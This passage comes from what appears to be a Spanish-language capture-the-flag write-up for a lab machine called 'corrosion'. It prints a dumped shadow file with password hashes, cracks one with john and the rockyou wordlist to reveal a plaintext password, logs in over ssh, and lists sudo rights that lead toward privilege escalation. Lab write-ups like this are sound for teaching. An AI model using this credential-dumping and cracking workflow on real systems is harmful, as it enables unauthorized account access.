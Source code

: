 ```plaintext
syslog:*:18858:0:99999:7:::
_apt:*:18858:0:99999:7:::
tss:*:18858:0:99999:7:::
uuidd:*:18858:0:99999:7:::
tcpdump:*:18858:0:99999:7:::
avahi-autoipd:*:18858:0:99999:7:::
usbmux:*:18858:0:99999:7:::
rtkit:*:18858:0:99999:7:::
dnsmasq:*:18858:0:99999:7:::
cups-pk-helper:*:18858:0:99999:7:::
speech-dispatcher:!:18858:0:99999:7:::
avahi:*:18858:0:99999:7:::
kernoops:*:18858:0:99999:7:::
saned:*:18858:0:99999:7:::
nm-openvpn:*:18858:0:99999:7:::
hplip:*:18858:0:99999:7:::
whoopsie:*:18858:0:99999:7:::
colord:*:18858:0:99999:7:::
geoclue:*:18858:0:99999:7:::
pulse:*:18858:0:99999:7:::
gnome-initial-setup:*:18858:0:99999:7:::
gdm:*:18858:0:99999:7:::
sssd:*:18858:0:99999:7:::
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
systemd-coredump:!!:18886::::::
tomcat:$6$XD2Bs.tL01.5OT2b$.uXUR3ysfujHGaz1YKj1l9XUOMhHcKDPXYLTexsWbDWqIO9ML40CQZPI04ebbYzVNBFmgv3Mpd3.8znPfrBNC1:18888:0:99999:7:::
sshd:*:18887:0:99999:7:::
jaye:$6$Chqrqtd4U/B1J3gV$YjeAWKM.usyi/JxpfwYA6ybW/szqkiI1kerC4/JJNMpDUYKavQbnZeUh4WL/fB/4vrzX0LvKVWu60dq4SOQZB0:18887:0:99999:7:::
```
4. Podremos descibrar los hash de los tres usuarios

(Guardamos un hash en un archivo llamado hash.txt) y con este comando lo desciframos.
```bash
john -- wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Saldrá: 07051986randy

5. Entramos por ssh al usuario randy 

```bash
ssh randy@192.168.0.18
```

```plaintext
randy@corrosion:~$ sudo -l
[sudo] password for randy: 
Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```
(No dice que tengremos que ejecutar el archivo randombase64.py)

